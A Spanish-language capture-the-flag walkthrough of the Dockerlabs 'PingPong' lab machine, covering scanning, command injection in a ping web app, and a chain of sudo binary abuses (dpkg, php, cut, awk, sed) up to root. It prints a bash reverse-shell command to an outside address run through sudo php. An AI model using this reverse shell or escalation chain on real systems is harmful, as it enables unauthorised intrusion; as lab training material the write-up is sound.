 # PingPong

Máquina vulnerable en modo **medium** de Dockerlabs.

- [Reconocimiento](#reconocimiento)
- [Escaneo](#escaneo)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

---

## Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Dado que la dirección IP es conocida o fácilmente identificable dentro de este entorno controlado, esta fase se clasifica como **reconocimiento pasivo**.

![Reconocimiento](https://i.imgur.com/rs4PSAQ.png)

---

## Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **80** abierto (Apache)
- Puerto **443** abierto (Apache)
- Puerto **5000** abierto corriendo una aplicación en Python (Werkzeug).

![Scan1](https://i.imgur.com/racpOYG.png)

---

## Enumeración

Se hizo una revisión de los puertos **80** y **433** en el navegador pero los servidores no suministraron información relevante.

![Scan1](https://i.imgur.com/YS628ZP.png)

El siguiente paso fue buscar directorios y recursos ocultos con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado no arrojó muchos directorios, se inspeccionó el `machine.php` pero tampoco mostró nada relevante.

![Gobuster](https://i.imgur.com/JJOzxTm.png)
![Machine](https://i.imgur.com/yod5G0O.png)

Se pasó al puerto **5000** donde se hayó una aplicación para realizar pings a hosts pasados por medio de un input HTML, al parecer no sanitizado. Debido a esto se realizaron pruebas de **Command injection** para así conseguir obtener información de la máquina.

![Werkzeug1](https://i.imgur.com/37eesfV.png)
![Werkzeug1](https://i.imgur.com/MY85DKb.png)

---

## Explotación

Gracias a que los resultados fueron positivos, se implementó una reverse shell con bash para conectar a la terminal.

![Werkzeug1](https://i.imgur.com/s6zQY5h.png)  
![Werkzeug2](https://i.imgur.com/sW9IsW7.png)

---

## Escalada de privilegios

Después de implementar la reverse shell se analizó el entorno para validar cómo conseguir la escalada de privilegios.

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/PPXa0is.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/dpkg` se puede ejecutar con el usuario `bobby`, lo que sugiere un movimiento lateral. En [GTFObins](https://gtfobins.github.io/gtfobins/dpkg/#sudo) podemos observar cómo ejecutar el dpkg.

Efectuamos ajustes en nuestro términal para evitar errores de list al ejecutar los comandos:

```
- script /dev/null -c bash
- stty raw -echo; fg
	reset xterm
- CTRL + z para pasarla background
- export TERM=xterm
- export SHELL=bash
- stty rows 47 colums 189
```

Al ejecutar los comandos para usar el dpkg:

```bash
sudo -u bobby /usr/bin/dpkg -l
```

![dpkg](https://i.imgur.com/YaJalta.png)
![dpkg](https://i.imgur.com/VKCKnWA.png)

Conseguido el usuario `bobby` Se repite el mismo proceso de comprobación de binarios y obtenemos lo siguiente para usuario `gladys`

![dpkg](https://i.imgur.com/3JNwdWo.png)

Se ejecuta el CMD en php para ejecutar otra reverse shell y conectarnos a `gladys`

`CMD='/bin/bash -c \ 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1\'`
`sudo -u gladys /usr/bin/php -r "system('$CMD');"`

Con esto pasamos al usuario `gladys` nuevamente se vuelve a repetir el proceso de comprobación, siempre utilizando searchbins o GTFObins en este caso el de [cut](https://gtfobins.github.io/gtfobins/cut/#sudo). Al revisar el directorio `/opt/` se encontró una flag que se utilizó para pasar al siguiente usuario `chocolatito`.

![dpkg](https://i.imgur.com/Iuf675b.png)

Obteniendo el usuario de `chocolatito` se vuelve a comprobar y se buscan nuevos binarios, en este caso es [awk](https://gtfobins.github.io/gtfobins/awk/#sudo). Que nos permite pasar al siguiente usuario que es `theboss`

![dpkg](https://i.imgur.com/ZeyEw1O.png)

Utilizando el método de comprobación como las veces anteriores, se descubre que este usuario en particular puede dar vía libre al root por medio de [sed](https://gtfobins.github.io/gtfobins/sed/#sudo).

![dpkg](https://i.imgur.com/ItDzxDz.png)

Y es con esto que después de realizar tantos movimientos laterales, se consigue escalar al root.
